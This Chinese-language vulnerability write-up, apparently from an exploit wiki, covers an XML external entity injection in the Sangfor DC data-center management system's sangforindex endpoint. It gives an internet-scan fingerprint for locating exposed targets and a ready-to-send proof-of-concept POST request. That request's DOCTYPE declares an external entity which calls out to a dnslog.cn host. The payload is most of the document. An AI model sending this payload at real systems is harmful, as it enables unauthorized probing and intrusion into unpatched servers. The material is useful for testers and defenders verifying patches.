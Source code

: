 # 深信服 DC数据中心管理系统 sangforindex XML实体注入漏洞

## 漏洞描述

深信服 DC数据中心管理系统 sangforindex 接口存在XML实体注入漏洞，攻击者可以发送特定的请求包造成XML实体注入

## 漏洞影响

深信服 DC数据中心管理系统

## 网络测绘

"SANGFOR 数据中心"

## 漏洞复现

登陆页面

[![img](https://github.com/PeiQi0/PeiQi-WIKI-Book/raw/main/docs/.vuepress/public/img/1692061412640-89b0f89d-f4eb-4cec-8df7-42a0c36fe233.png)](https://github.com/PeiQi0/PeiQi-WIKI-Book/blob/main/docs/.vuepress/public/img/1692061412640-89b0f89d-f4eb-4cec-8df7-42a0c36fe233.png)

验证POC

```
POST /src/sangforindex HTTP/1.1
Host: 
Content-Type: text/xml

<?xml version="1.0" encoding="utf-8" ?>
<!DOCTYPE root [
    <!ENTITY rootas SYSTEM "http://xgsg1k.dnslog.cn">
]>
<xxx>
&rootas;
</xxx>
```



[![img](https://github.com/PeiQi0/PeiQi-WIKI-Book/raw/main/docs/.vuepress/public/img/1692061553187-836f8383-a0e4-419d-b6eb-a001f62a92d5.png)](https://github.com/PeiQi0/PeiQi-WIKI-Book/blob/main/docs/.vuepress/public/img/1692061553187-836f8383-a0e4-419d-b6eb-a001f62a92d5.png)
